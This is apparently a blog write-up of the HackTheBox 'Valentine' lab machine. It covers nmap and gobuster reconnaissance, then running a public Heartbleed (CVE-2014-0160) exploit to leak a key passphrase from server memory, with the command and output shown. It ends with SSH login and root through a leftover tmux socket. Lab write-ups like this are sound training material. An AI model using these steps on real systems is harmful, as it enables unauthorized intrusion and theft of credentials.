





HackTheBox - Valentine Writeup
Table of Contents
Nmap
Like always, I’m going to scan the IP Address by using nmap but I’m going to scan the full port first. Then, I’m going to scan the only open ports.
nmap -p22,80,443 -sCV -oN nmap/valentine 10.10.10.79
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 964c51423cba2249204d3eec90ccfd0e (DSA)
| 2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_ 256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp open http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after: 2019-02-06T00:45:25
|_ssl-date: 2022-11-16T22:23:45+00:00; +1s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The nmap scan result is completed. There are just 3 port opens which are SSH, HTTP, and HTTPS. Based on the OpenSSH service banner, this is an Ubuntu (precise) machine. However, on port 443, the nmap found the hostname on the ssl-cert scripts scan. The hostname called valentine.htb and with that information I’m going to add the name to the /etc/hosts file.

Https: Valentine.htb
I navigate to port 443 on my browser and accept the SSL certificates. I’ll check the certificate and nothing useful for me except the hostname which nmap already found it. Shockingly, the homepage it’s just an image of a woman that looks like screaming at something. The “Something” is an image/logo that is related to the heartbleed vulnerability.
Then, I’m running the second nmap scan with the --script flag and followed with ssl-heartbleed scripts.

The result came back with "VULNERABLE" to this type of vulnerability. Heartbleed is a bug found in the popular OpenSSL cryptographic software library also the CVE assigned to it, called CVE-2014-0160, and here’s a great comic explaining it.
Gobuster
Although, I know this web server is vulnerable, based on the nmap scan result above. The homepage itself also gave me a clue and based on the index file extension it’s a PHP page. Then, I’m going to run the gobuster to search for what’s hidden inside this webserver with the -x flag for the PHP extension.

Https: /dev
The /dev directory caught my attention because it’s on top of course :). Interestingly enough, this directory enables file indexing and shows there are 2 files on it. The first one is called hype_key and the second one is called notes.txt.

However, I’m more hype about the hype_key file because it sounds interesting but when I clicked it open, it’s a bunch of hex bytes. So, I’m going ahead to the best chef I know in the entire world and try to ask him about it, and BOOM! Turns out, it’s a legit key and I’m going to copy and save it on my machine. Based on the key itself, I assumed this is an SSH private key, and it’s also encrypted. Now, I need to find the passphrase for it.

Foothold: CVE-2014-0160
Based on this CVE which is a heartbleed vulnerability. The description says "which allows remote attackers to obtain sensitive information from process memory such as private key". To be honest, I hope I manage to find the passphrase for the private key that I found earlier in the /dev directory. Like always, I’ll search for the exploit on the searchsploit database and manage to find the python exploit.

Then, I’m running the exploit and give the victim IP as an argument and the output is massive. However, it’s a bunch of zero hex bytes of nothing and I’ll try to chop some of it by piping the output to the grep command. My first time running it, and I can’t find anything useful. So, I’ll try to keep running it, and finally, I manage to find a base64 string under the /decode.php file.
> python2 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
Trying SSL 3.0...
Connecting...
Sending Client Hello...
---[snip]---
Received heartbeat response:
---[snip]---
00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F 1/decode.php..Co
00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C ntent-Type: appl
0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F ication/x-www-fo
0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 rm-urlencoded..C
0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34 ontent-Length: 4
0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63 2....$text=aGVhc
0140: 78 78 78 78 78 78 78 78 78 78 78 78 78 78 78 78 xxxxxxxxxxxxxxxx
0150: 78 78 78 78 78 78 78 78 78 78 78 78 78 3d 3d 7e xxxxxxxxxxxxx==~
0160: FA 6E 07 CE 08 F3 DE D1 69 D9 18 87 D5 31 66 EC .n......i....1f.
0170: 6B E8 4E 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C k.N.............
Looks like, someone used the /decode.php on this webserver to decode this string before. I navigated to the /decode.php page and try to decode it and it managed to encode. The encoded string is human readable and I believe it’s a passphrase for the private key.

With this information that I gather, I’ll try to SSH into the machine using the private key and hype as the user. Based on, the name of the key file that I found earlier, first I need to change the permission of the key with this command chmod 600 <file.key>.
However, I’ve got an error that says "sign_and_send_pubkey: no mutual signature supported", with quick googling I manage to find the answer for it. Then, I’ll try again to login in and KACHOW!

PrivEsc: Tmux Session
I’m in as the hype user and the first thing I love to do is check the sudo permission with the sudo -l command. Unfortunately, it does require a password which I don’t have. Then, I’ll try to list all files in the /home/hype directory and I’m amazed that the .bash_history file contains something. Most of the time, this file always redirects to the 2>/dev/null which is nothing.

A lot of history contains something to do with Tmux. So, I’ll try to do a bunch of it and I manage to get root by executing this command tmux -S /.devs/dev_sess and it throws me in a Tmux session.

ROOT!